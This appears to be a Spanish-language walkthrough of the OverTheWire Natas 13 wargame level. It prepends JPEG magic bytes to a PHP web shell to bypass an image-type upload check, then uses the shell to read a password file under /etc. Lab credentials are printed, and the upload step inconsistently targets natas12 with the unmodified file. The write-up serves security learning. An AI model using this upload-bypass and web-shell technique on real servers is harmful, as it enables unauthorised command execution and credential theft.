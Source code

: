 # Natas 13

#### URL: http://natas13.natas.labs.overthewire.org
#### Credenciales: natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC

Parecido al nivel 12, podemos subir un archivo pero esta vez comprueba si es una imagen por medio de la revision de su numero magico.

``` php
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

Podemos agregar los bytes con que inicia y termina un archivo jpg para sobrepasar la verificacion.

``` bash
echo "\xff\xd8\xff\xe0" > modshell.php
cat shell.php >> modshell.php
echo "\xff\xd9" >> modshell.php
```

Subimos el archivo

``` bash
curl -u natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB http://natas12.natas.labs.overthewire.org/ -F "uploadedfile=@/home/kalcast/Laboratorio/shell.php" -F "filename=shell.php" -F "MAX_FILE_SIZE=1000"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/7hpf170ehu.php">upload/7hpf170ehu.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
Accedemos a la ruta del archivo con el parametro `cmd=cat /etc/natas_webpass/natas14`

```
curl -u natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC "http://natas13.natas.labs.overthewire.org/upload/7hpf170ehu.php?cmd=cat%20/etc/natas_webpass/natas14"
��
  <pre>z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
</pre> 
```

`natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`
